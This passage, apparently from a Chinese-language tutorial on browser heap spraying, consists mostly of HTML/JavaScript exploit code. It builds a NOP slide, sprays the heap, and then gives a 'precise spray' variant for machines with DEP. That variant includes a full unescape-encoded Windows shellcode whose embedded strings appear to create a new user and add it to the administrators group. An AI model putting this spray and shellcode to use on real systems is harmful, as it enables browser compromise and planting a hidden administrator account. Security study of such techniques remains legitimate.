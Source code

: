 
 <span class="hljs-flow">for</span> (c = <span class="hljs-number">0</span>; c &lt; block_size; c++){
 NopSlide += unescape('%u1c1c');} //shellcode hou
 NopSlide = NopSlide.substring(<span class="hljs-number">0</span>,block_size - (Shellcode.length));

 var OBJECT = Shellcode + NopSlide;
 OBJECT = alloc(<span class="hljs-number">0</span>xfffe0, OBJECT); // <span class="hljs-number">0</span>xfffe0 = <span class="hljs-number">1</span>mb

 var evil = new Array();
 <span class="hljs-flow">for</span> (var k = <span class="hljs-number">0</span>; k &lt; <span class="hljs-number">0</span>x350; k++) {
 evil[k] = OBJECT.substr(<span class="hljs-number">0</span>, OBJECT.length);
 }
 alert('spray done !');
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;</code></pre>
<p>这一步只是将堆上喷满slip代码和shellcode。因为没有DEP所以不需要那么精准</p>
<h3 id="dep保护情况">DEP保护情况</h3>
<p>先贴上精准喷射代码</p>
<pre class="prettyprint"><code class=" hljs dos">&lt;html&gt;
&lt;head&gt;&lt;/head&gt;
&lt;body&gt;
&lt;script&gt;
//堆喷射
 //Fix BSTR spec
 function alloc(bytes, mystr) {
 while (mystr.length&lt;bytes) mystr += mystr;
 return mystr.substr(<span class="hljs-number">0</span>, (bytes-<span class="hljs-number">6</span>)/<span class="hljs-number">2</span>);
 }

 block_size = <span class="hljs-number">0</span>x1000;
 padding_size = <span class="hljs-number">0</span>xdFe; //这里必须根据自己的电脑来配置 为了对齐
 Padding = '';
 NopSlide = '';

 var Shellcode =
unescape('<span class="hljs-envvar">%ud231%</span>u30b2<span class="hljs-envvar">%u8b64%</span>u8b12<span class="hljs-envvar">%u0c52%</span>u528b<span class="hljs-envvar">%u8b1c%</span>u0842<span class="hljs-envvar">%u728b%</span>u8b20<span class="hljs-envvar">%u8012%</span>u0c7e<span class="hljs-envvar">%u7533%</span>u89f2<span class="hljs-envvar">%u03c7%</span>u3c78<span class="hljs-envvar">%u578b%</span>u0178<span class="hljs-envvar">%u8bc2%</span>u207a<span class="hljs-envvar">%uc701%</span>ued31<span class="hljs-envvar">%u348b%</span>u01af<span class="hljs-envvar">%u45c6%</span>u3e81<span class="hljs-envvar">%u6957%</span>u456e<span class="hljs-envvar">%uf275%</span>u7a8b<span class="hljs-envvar">%u0124%</span>u66c7<span class="hljs-envvar">%u2c8b%</span>u8b6f<span class="hljs-envvar">%u1c7a%</span>uc701<span class="hljs-envvar">%u7c8b%</span>ufcaf<span class="hljs-envvar">%uc701%</span>u4b68<span class="hljs-envvar">%u6e33%</span>u6801<span class="hljs-envvar">%u4220%</span>u6f72<span class="hljs-envvar">%u2f68%</span>u4441<span class="hljs-envvar">%u6844%</span>u726f<span class="hljs-envvar">%u2073%</span>u7468<span class="hljs-envvar">%u6172%</span>u6874<span class="hljs-envvar">%u6e69%</span>u7369<span class="hljs-envvar">%u2068%</span>u6441<span class="hljs-envvar">%u686d%</span>u6f72<span class="hljs-envvar">%u7075%</span>u6368<span class="hljs-envvar">%u6c61%</span>u6867<span class="hljs-envvar">%u2074%</span>u6f6c<span class="hljs-envvar">%u2668%</span>u6e20<span class="hljs-envvar">%u6865%</span>u4444<span class="hljs-envvar">%u2620%</span>u6e68<span class="hljs-envvar">%u2f20%</span>u6841<span class="hljs-envvar">%u6f72%</span>u334b<span class="hljs-envvar">%u3368%</span>u206e<span class="hljs-envvar">%u6842%</span>u7242<span class="hljs-envvar">%u4b6f%</span>u7368<span class="hljs-envvar">%u7265%</span>u6820<span class="hljs-envvar">%u7465%</span>u7520<span class="hljs-envvar">%u2f68%</span>u2063<span class="hljs-envvar">%u686e%</span>u7865<span class="hljs-envvar">%u2065%</span>u6368<span class="hljs-envvar">%u646d%</span>u892e<span class="hljs-envvar">%ufee5%</span>u534d<span class="hljs-envvar">%uc031%</span>u5550%ud7ff');
